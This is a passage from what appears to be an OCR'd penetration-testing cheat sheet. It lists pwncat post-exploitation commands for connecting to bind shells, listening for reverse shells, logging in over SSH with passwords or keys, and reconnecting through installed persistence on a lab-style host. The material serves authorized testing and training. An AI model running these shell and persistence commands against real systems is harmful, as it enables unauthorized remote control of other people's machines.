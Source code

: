 ```bash
# logout
logout

# close script session
Ctrl + D
```

Scripts
------------------------------------------------------------

- [pwncat](https://github.com/calebstewart/pwncat) - pwncat is a post-exploitation platform for Linux targets

    ```bash
    cd ~/tools
    source pwncat-env/bin/activate

    # Connect to a bind sheql
    pwncat connect://10.10.10.10:4444
    pwncat 10.10.10.10:4444
    pwncat 10.10.10.10 4444
    # Listen for reverse shell
    pwncat bind://0.0.0.0:4444
    pwncat 0.0.0.0:4444
    pwncat :4444
    pwncat -lp 4444
    # Connect via ssh
    pwncat ssh://user:password@10.10.10.10
    pwncat user@10.10.10.10
    pwncat user:password@10.10.10.10
    pwncat -i id_rsa user@10.10.10.10
    # SSH w/ non-standard port
    pwncat -p 2222 user@10.10.10.10
    pwncat user@10.10.10.10:2222
    # Reconnect utilizing installed persistence
    #   If reconnection failes and no protocol is specified,
    #   SSH is used as a fallback.
    pwncat reconnect://user@10.10.10.10
    pwncat reconnect://user@c228fc49e515628a0c13bdc4759a12bf
    pwncat user@10.10.10.10
    pwncat c228fc49e515628a0c13bdc4759a12bf
    pwncat 10.10.10.10
